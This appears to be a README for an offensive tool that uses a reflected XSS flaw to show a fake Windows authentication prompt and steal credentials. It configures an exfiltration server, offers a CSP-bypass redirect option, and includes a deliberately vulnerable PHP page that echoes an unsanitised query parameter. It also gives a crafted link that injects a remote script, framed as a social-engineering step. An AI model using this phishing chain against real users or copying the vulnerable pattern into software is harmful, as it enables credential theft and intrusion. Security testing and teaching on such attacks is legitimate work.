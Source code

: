 # [Phish] Windows Authentication Prompt

* **NOTE**: two supported options (`winph.js`):

  * no CSP bypass - issue AJAX request

    ```
    ...
    var bypassCSP = false;
    ...
    ```

  * CSP bypass - issue hard redirect (uses `redir.php`)

    ```
    ...
    var bypassCSP = true;
    ...
    ```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.15/rxss.php?q=<script src=http://192.168.5.15/winph.js></script>
    ```

    * **NOTES**:
      * `192.168.5.15` - target site
      * `192.168.5.15` - web server hosting payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)

* [web browser rendering] Mozilla FireFox

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

* [web browser rendering] Google Chrome

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

* [web browser rendering] Microsoft Edge

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

